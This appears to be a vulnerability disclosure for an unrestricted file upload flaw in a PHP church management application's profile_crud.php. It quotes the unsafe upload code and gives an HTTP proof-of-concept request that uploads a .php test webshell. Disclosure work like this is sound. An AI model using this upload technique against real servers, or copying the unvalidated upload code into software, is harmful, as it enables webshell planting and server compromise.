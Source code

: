 ### Vulnerability file address

In line 15 of `church/admin/app/profile_crud.php`, `$filepath = "../../assets/images/" . $_FILES["image"]["name"];`, the file extension is not whitelisted. Following up to line 28, `move_uploaded_file($_FILES["image"]["tmp_name"], $filepath)`, the file is uploaded to the `church/assets/images/` directory.

```php
<?php
session_start();
include '../../assets/constant/config.php';
try {
	$conn = new PDO("mysql:host=$servername;dbname=$dbname", $username, $password);
	$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
} catch (PDOException $e) {
	echo "Connection failed: " . $e->getMessage();
}
if (isset($_POST['update'])) {

	$uploadDir = '../../assets/images/';
	if ($_FILES['image']['tmp_name'] != '') {
		$filepath = "../../assets/images/" . $_FILES["image"]["name"];
		$originalName = basename($_FILES['image']['name']);
		$extension = pathinfo($originalName, PATHINFO_EXTENSION);

		// Generate a new unique file name
		$newName = uniqid() . '.' . $extension;

		// Set the path to the new file location
		$newFilePath = $uploadDir . $newName;

		// Upload the file to the server


		if (move_uploaded_file($_FILES["image"]["tmp_name"], $filepath)) {
			$img = $_FILES["image"]["name"];

			@unlink("../../assets/images/" . $_POST['old_cat_img']);
		}
	} 
```

### POC

```http
POST /church/admin/app/profile_crud.php HTTP/1.1
Host: www.church.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: PHPSESSID=kecn6qqrggjnvlpgliqeq951j0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Length: 288

------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="update"

1
------WebKitFormBoundaryTZGvWJmfBtMK9O8p
Content-Disposition: form-data; name="image";filename="8888.php"

<?php echo "this is webshell test"; ?>
------WebKitFormBoundaryTZGvWJmfBtMK9O8p--

```

### Attack results pictures

![image-20250221163439112](https://raw.githubusercontent.com/nixuchuan/imgs/main/202502211634150.png)

![image-20250221163419940](https://raw.githubusercontent.com/nixuchuan/imgs/main/202502211634982.png)